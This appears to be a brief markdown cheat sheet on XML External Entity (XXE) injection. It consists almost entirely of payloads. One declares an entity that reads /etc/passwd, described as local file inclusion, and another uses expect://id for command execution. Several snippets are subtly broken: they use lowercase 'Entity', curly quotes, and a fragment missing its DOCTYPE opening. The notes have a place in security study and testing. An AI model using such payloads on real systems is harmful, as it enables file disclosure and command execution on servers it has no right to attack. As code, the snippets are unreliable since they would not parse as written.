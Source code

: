 # XXE

## Concept
```<!Entity nooranet SYSTEM “file:///etc/passwd”>```

## Exploitation
- LFI
```XML
<!DOCTYPE foo[
<!Entity xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```
- Command Injection
```XML
<!Entity xxe SYSTEM "expect://id">]>
```
